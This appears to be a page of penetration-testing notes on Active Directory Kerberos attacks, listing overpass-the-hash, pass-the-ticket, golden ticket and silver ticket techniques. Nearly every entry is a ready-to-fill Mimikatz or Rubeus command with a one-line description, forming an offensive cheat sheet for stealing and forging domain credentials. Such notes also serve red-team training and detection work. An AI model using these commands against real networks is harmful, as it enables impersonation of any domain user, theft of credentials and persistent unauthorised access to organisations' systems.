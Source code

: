 ### Initial Access

#### Overpass-the-Hash (Pass-the-Key)

*   **Tool:** \[\[Mimikatz Cheat Sheet]]

    ```bash
    sekurlsa::pth /user:<username> /domain:<domain> /rc4:<NTLM_hash>
    ```
* **Description:** Uses the NTLM hash of a user’s password to generate a Kerberos ticket, elevating privileges within the domain.

\


*   **Tool:** \[\[Rubeus]]

    ```bash
    rubeus.exe asktgt /user:user /rc4:hash
    ```

#### Pass-the-Ticket

*   **Tool:** \[\[Mimikatz Cheat Sheet]], \[\[Rubeus]]

    ```bash
    kerberos::ptt <ticket.kirbi>
    ```
* **Description:** Reuses stolen Kerberos tickets to authenticate as the original user, bypassing the need for a password.

\


*   **Tool:** \[\[Rubeus]]

    ```bash
    rubeus.exe ptt /ticket:<base64ticket>
    ```

#### Golden Ticket Attack

*   **Tool:** \[\[Mimikatz Cheat Sheet]]

    ```bash
    kerberos::golden /domain:<domain> /sid:<domain_SID> /target:<target_FQDN> /rc4:<NTLM_hash> /user:<username>
    ```
* **Description:** Creates a forged TGT that can be used to impersonate any user in the domain, providing persistent access.

#### Silver Ticket Attack

*   **Tool:** \[\[Mimikatz Cheat Sheet]]

    ```bash
    kerberos::golden /domain:<domain> /sid:<domain_SID> /target:<service_FQDN> /rc4:<NTLM_hash> /user:<username> /service:<service_name>
    ```
* **Description:** Creates a forged Service Ticket (TGS) that can be used to access specific services, offering a more targeted form of persistence.
